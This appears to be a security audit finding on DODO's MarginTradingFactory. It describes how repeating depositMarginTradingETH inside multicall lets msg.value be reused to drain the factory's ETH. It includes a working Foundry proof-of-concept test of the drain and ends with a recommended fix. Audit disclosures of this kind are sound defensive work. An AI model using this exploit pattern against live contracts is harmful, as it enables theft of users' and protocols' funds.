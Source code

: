 smiling_heretic

medium

# Using repeated `depositMarginTradingETH` in `multicall` allows anyone to drain all ETH from the factory

## Summary

Repeating `depositMarginTradingETH` in `multicall` in `MarginTradingFacotry` allows attacker to reuse `msg.value` and drain all ETH from this contract.


## Vulnerability Detail

When using `multicall` in `MarginTradingFactory` all "sub-calls" will have the same `msg.value` because of how `delegatecall` works.

In particular, when using repeating `depositMarginTradingETH` (that relies on `msg.value` to know how much ETH to send to user's `marginTrading`)  in `multicall`, attacker can reuse `msg.value` so he pays only once but deposits `msg.value` ETH to his `marginTrading` contract multiple times.

This allows the attacker to deposit all ETH from factory to his `marginTrading` contract. Then he can simply `marginTrading.withdrawETH` to get all this ETH for himself.

## Impact

Anyone can drain all ETH from `MarginTradingFactory` contract.

While it's not entirely clear how this ETH would end up in the factory, there's some evidence that the protocol is prepared for this possibility:

1. Factory has `receive` function implemented so it's possible to send ETH to factory directly.
2. There's `cleanETH` function protected by the `onlyOwner` modifier. So, in case there's some non-zero balance of ETH in the factory (maybe someone sent it by accident?), only trusted owner should be able to recover it.

## Proof of Concept

Add `dodo-margin-trading-contracts/test/marginTrading/ExploitMulticall.t.sol`

```solidity
pragma solidity 0.8.15;

import "../Context.t.sol";

contract MulticallExploit is Context {
    function setUp() public {
        contextBasicV2();
        approveAllTokenV2();
    }

    function testExploit() public {
        address attacker = address(6666);

        faucetWeth(address(lendingPoolV2), 10000 ether);

        // here attacker starts with 1 ETH but initial required money can be easily obtained with flashloans
        deal(attacker, 1 ether);
        // someone sends 10 ETH to the factory contract
        deal(address(marginTradingFactory), 10 ether);

        console2.log("before attack:");
        console2.log(attacker.balance);
        console2.log((address(marginTradingFactory)).balance);

        assertEq(attacker.balance, 1 ether);
        assertEq(address(marginTradingFactory).balance, 10 ether);

        vm.startPrank(attacker);
        // attacker creates his marginTrading contract to deposit and withdraw ETH
        address _marginTrading = createMarginTradingContract();

        // attacker prepares args for multicall: depositMarginTradingETH repeated 11 times
        bytes[] memory multicallData = new bytes[](11);
        for (uint i = 0; i < 11; i++) {
            multicallData[i] = abi.encodeWithSelector(
                marginTradingFactory.depositMarginTradingETH.selector,
                address(_marginTrading),
                false,
                uint8(1)
            );
        }
        // we send only 1 ETH but we reuse msg.value 11 times when deopsiting
        marginTradingFactory.multicall{value: 1 ether}(multicallData);
        // the attacker withdraws ETH to his account
        IMarginTrading(_marginTrading).withdrawETH(false, 11 ether, uint8(1));
        vm.stopPrank();

        console2.log();
        console2.log("after attack:");
        console2.log(attacker.balance);
        console2.log((address(marginTradingFactory)).balance);

        assertEq(attacker.balance, 11 ether);
        assertEq(address(marginTradingFactory).balance, 0);
    }
}
```

Run `forge test -vvv --match-path test/marginTrading/ExploitMulticall.t.sol`.

## Code Snippet

https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L225

https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L77

https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L38

https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L205-L206


## Tool used

Foundry, Manual Review

## Recommendation

Rethink how to implement `depositMarginTradingETH` without relying on `msg.value` or remove `multicall`.
